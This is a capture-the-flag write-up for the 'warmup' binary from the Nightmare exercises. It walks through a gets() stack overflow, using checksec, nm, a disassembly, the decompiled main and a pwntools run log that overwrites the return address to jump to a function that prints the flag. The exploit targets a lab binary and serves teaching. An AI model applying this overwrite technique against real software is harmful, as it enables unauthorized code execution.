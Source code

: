 # Soln

Note canary and PIE are disabled:

```sh
pwndbg> checksec
File:     /home/pwent/code/personal/CTF/Nightmare/pwn/warmup/warmup
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

When you run the program, it leaks an address:

```sh
❯ ./warmup
-Warm Up-
WOW:0x40060d
```

Which, `nm` reports as `easy`:

```sh
❯ nm warmup | rg "60d"
000000000040060d T easy
```

`easy` calls `cat` on `flag.txt` via `system("cat flag.txt")`:

```sh
000000000040060d <easy>:
  40060d:       55                      push   rbp
  40060e:       48 89 e5                mov    rbp,rsp
  400611:       bf 34 07 40 00          mov    edi,0x400734
  400616:       e8 b5 fe ff ff          call   4004d0 <system@plt>
  40061b:       5d                      pop    rbp
  40061c:       c3``
```

Where `0x400734` is:

```sh
Contents of section .rodata:
 400730 01000200 63617420 666c6167 2e747874  ....cat flag.txt
 400740 002d5761 726d2055 702d0a00 574f573a  .-Warm Up-..WOW:
 400750 0025700a 003e00                      .%p..>.
```

Therefore, `easy` calls `system`, and PIE is disabled. We only have to redirect code exec to `easy`
to win.

`main` has a simple `gets` call that overflows `local_48`:

```c
void main(void)
{
  char local_88 [64];
  char local_48 [64];
  
  write(1,"-Warm Up-\n",10);
  write(1,&DAT_0040074c,4);
  sprintf(local_88,"%p\n",easy);
  write(1,local_88,9);
  write(1,&DAT_00400755,1);
  gets(local_48);
  return;
}
```

So we can overwrite the return address with `easy`.

```sh
❯ python soln.py
[+] Starting local process './warmup' argv=[b'./warmup'] : pid 889613
/home/pwent/code/personal/CTF/Nightmare/pwn/warmup/soln.py:8: BytesWarning: Bytes is not text; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  e = ELF(b"./warmup")
[*] '/home/pwent/code/personal/CTF/Nightmare/pwn/warmup/warmup'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[*] Loaded 14 cached gadgets for b'./warmup'
[*] ret_addr is: 4195489
[DEBUG] Received 0x18 bytes:
    b'-Warm Up-\n'
    b'WOW:0x40060d\n'
    b'>'
[*] addr is: 4195853
/home/pwent/code/personal/CTF/Nightmare/pwn/warmup/soln.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil(">")
[DEBUG] Sent 0x59 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  a1 04 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000050  0d 06 40 00  00 00 00 00  0a                        │··@·│····│·│
    00000059
[DEBUG] Received 0xa bytes:
    b'flag{XXX}\n'
[*] Stopped process './warmup' (pid 889613)
```
